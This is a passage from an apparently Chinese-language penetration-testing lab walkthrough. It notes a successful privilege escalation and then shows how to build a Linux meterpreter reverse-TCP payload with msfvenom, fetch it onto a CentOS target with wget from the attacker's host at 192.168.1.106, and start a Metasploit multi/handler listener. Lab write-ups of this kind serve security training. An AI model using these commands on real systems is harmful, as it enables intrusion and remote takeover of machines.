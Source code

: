 登录账号

![img](assets/1685439761707-552b78a5-41d1-495f-b09f-687b1e6b28ca-170339517269675.png)

提权成功



## 2.msf上线监听

生成shell.elf，上传payload给centos并给与权限

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=4444 -f elf > shell.elf

![img](assets/1685441206541-bd3aa3a9-a25c-4604-b5ea-732111b5bfdc-170339517269677.png)

wget http://192.168.1.106:8000/shell.elf

![img](assets/1685440767557-274191a2-4aa8-40d3-bf65-3d9bd8e95671-170339517269679.png)

msf设置监听

use exploit/multi/handler
